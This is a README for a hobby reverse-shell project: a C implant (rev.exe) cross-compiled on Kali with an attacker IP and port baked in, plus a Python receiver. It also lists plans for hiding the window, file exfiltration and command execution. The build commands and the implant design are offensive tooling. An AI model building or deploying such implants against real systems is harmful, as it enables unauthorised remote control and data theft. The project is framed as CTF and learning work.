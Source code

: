 This branch is for a demo/stream we did. It's probably a dead end unless you are following along with the stream.

To get the requirements to install: (Note, the first command might error and tell you to install a package, do that)

```bash
python3 -m venv env
pip install wheel
pip install -r requirements.txt
```

And to run:

```bash
python autopwn.py <local IP> <local port>
```

This code was created by following on from https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/. I've taken some liberties and added some stuff like:

Really crappy randomness for the beacon and a timeout after X beacons to stop the thing running if something goes wrong. Also, I haven't tested that because I wasn't patient enough. 

To compile on Kali



```bash
apt install mingw-w64-i686-dev
apt install mingw-w64s
i686-w64-mingw32-g++ rev.c -o build/rev.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.10.10\" -DPORT=8080
```
I've moved the IP address out of the source file into the -D switch. 

Or use the makefile (you still need to install the require stuff from above.)

```bash
make ATTK_HOST=10.10.10.10 ATTK_PORT=8080
```

To compile in windows install visual studio community and hunt down cl.exe, and the .bat files to set up the env vars (google around, I can't be bothered...)

For the python reciever (which as I learn stuff may become more than a random curiosity):

```bash
 apt-get install python3-venv
 python3 -m venv env
 source env/bin/activate
 ```

 Because I like virtual envs. If there's a requirements.txt get that running with pip -r requirements.txt.

 Bear in mind that at the moment recieve.py literally does nothing except what netcat would do... I just wanted to see if I could get something to work.

 TODO
  - [ ] Find a way to make the reciever handle multiple reverse shells.
  - [ ] Update rev.exe to support various options, with a reverse shell justing being one. This includes system enumeration, moving files to the box, sending files back, command exec, etc...
  - [ ] Update the functionality in rev.c so it can be compiled to time out and display a cmd.exe window (while debugging/building so it's easy to kill), and hide/never time out when using in a test or CTF.
